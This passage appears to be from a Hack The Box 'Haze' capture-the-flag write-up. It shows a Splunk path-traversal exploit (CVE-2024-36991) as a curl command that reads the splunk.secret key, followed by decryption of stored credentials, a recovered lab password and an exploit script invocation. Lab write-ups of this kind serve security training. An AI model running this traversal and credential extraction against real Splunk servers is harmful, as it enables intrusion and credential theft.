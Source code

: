 Reads the splunk.secret key used to encrypt/decrypt stored credentials

```bash
curl -s "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret"
```

![Screenshot 2025-03-31 at 8.09.16 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.09.16_PM.png)

Saves the base64-encoded splunk.secret key to a file

```bash
echo 'NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD' > splunk_secret
```

Uses the splunksecrets tool to decrypt the password hashes using the extracted splunk.secret key

```bash
splunksecrets splunk-decrypt -S splunk_secret
```

![Screenshot 2025-03-31 at 8.10.55 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.10.55_PM.png)

Extracted credentials: username and decrypted password

```bash
payl.taylor:Ld@p_Auth_Sp1unk@2k24
```

i Made a `script` it look for all interesting  Path automatically  [i will update it soon]

[https://github.com/jaytiwari05/CVE-2024-36991](https://github.com/jaytiwari05/CVE-2024-36991)

```bash
python3 exploit.py -u http://haze.htb:8000 -s 1
```

---

## 🔱 Initial Access :-

Enumerating Users
